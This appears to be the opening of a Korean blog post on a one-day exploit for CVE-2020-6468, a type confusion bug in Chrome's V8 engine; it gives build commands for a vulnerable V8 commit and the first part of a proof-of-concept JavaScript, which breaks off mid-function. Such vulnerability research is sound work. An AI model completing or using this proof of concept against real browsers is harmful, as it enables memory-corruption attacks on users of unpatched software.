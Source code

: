 ```yaml
---
layout: post
title: CVE-2020-6468 1day exploit
categories: Browser
tags: [v8, 1day]
---
```


## 목차

- 빌드

- POC 및 패치

- 익스플로잇

- 레퍼런스

---  

## 빌드

```jsx
git clone <https://chromium.googlesource.com/chromium/tools/depot_tools.git>
export PATH=`pwd`/depot_tools:"$PATH"
fetch v8 
cd v8 
git checkout a4dcd39d521d14c4b1cac020812e44ee04a7f244
gclient sync
tools/dev/gm.py x64.release
```

---

## POC 및 패치

- POC

  - Terminate node에 대한 검사를 하지 않고 그대로 처리해서 발생하는 type confusion bug

  ```jsx
  class classA {
    constructor() {
      this.val = 0x4242;
      this.x = 0;
      this.a = [1,2,3];
    }
  }
  
  class classB {
    constructor() {
      this.val = 0x4141;
      this.x = 1;
      this.s = "dsa";
    }
  }
  
  var A = new classA();
  var B = new classB()
  
  function f (arg1, arg2) {
    if (arg2 == 41) {
      return 5;
    }
    var int8arr = new Int8Array ( 10 ) ;
  ```